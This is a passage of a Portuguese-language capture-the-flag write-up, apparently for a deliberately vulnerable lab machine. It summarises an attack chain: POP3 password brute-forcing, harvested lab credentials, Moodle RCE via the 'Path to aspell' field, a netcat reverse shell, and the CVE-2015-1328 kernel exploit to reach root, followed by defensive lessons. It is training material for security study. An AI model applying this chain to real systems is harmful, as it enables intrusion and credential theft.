| 6 | Hydra — `natalya` | `natalya : bird` → e-mails revelam `severnaya-station.com/gnocertdir` e `xenia / RCP90rulez!` |
| 7 | Login Moodle como `dr_doak` → My private files | `s3cret.txt` aponta para `/dir007key/for-007.jpg` |
| 8 | ExifTool em `for-007.jpg` | Base64 no campo Image Description → `xWinter1995x!` (admin) |
| 9 | Login Moodle como Admin → TinyMCE "Path to aspell" | RCE via payload Python inserido no campo de configuração |
| 10 | Netcat listener + Blog "Add a new entry" | Reverse shell como `www-data` |
| 11 | CVE-2015-1328 (overlayfs, EDB-ID 37292) | Compilado com `cc`, executado → `uid=0(root)` |
| 12 | `cat /root/.flag.txt` | **Flag:** `568628e0d993b1973adc718237da6e93` |

---

## Ferramentas Utilizadas

| Ferramenta | Função |
|---|---|
| **Nmap** | Varredura de portas e identificação de serviços/versões |
| **Hydra** | Ataque de dicionário contra o serviço POP3 |
| **Netcat** | Interação manual com POP3 (leitura de e-mails) e recepção da reverse shell |
| **ExifTool** | Extração de metadados ocultos em imagem JPEG |
| **Moodle (web)** | Portal de treinamento explorado via RCE no campo "Path to aspell" |
| **Exploit-DB (EDB-ID 37292)** | PoC em C para CVE-2015-1328 (overlayfs LPE) |
| **GCC/CC** | Compilação do exploit de escalonamento de privilégio local |

## Principais Aprendizados

- **"Security by obscurity"** (rodar serviços em portas não padrão) não substitui controles de autenticação reais — a porta POP3 "escondida" em 55007 ainda foi descoberta via varredura completa de portas.
- Comentários e scripts client-side (`view-source`, arquivos `.js`) frequentemente vazam informações sensíveis — mesmo quando "codificadas" (entidades HTML, Base64 não são criptografia).
- Reutilização/enumeração de credenciais entre serviços (e-mail, Moodle) é uma técnica central em cadeias de ataque reais: cada caixa de e-mail comprometida revelou credenciais para o próximo serviço.
- Dados sensíveis "escondidos" em metadados de arquivos (EXIF) são uma forma comum — porém falha — de evitar scanners de segurança baseados em texto.
- Campos de configuração administrativa que aceitam caminhos de executáveis (como o "Path to aspell" do Moodle) podem se tornar vetores de **RCE** quando o valor é passado para uma chamada de shell sem sanitização.
- Kernels desatualizados seguem sendo um vetor clássico e confiável de escalonamento de privilégios local — enumerar a versão do kernel é sempre um dos primeiros passos de pós-exploração.

---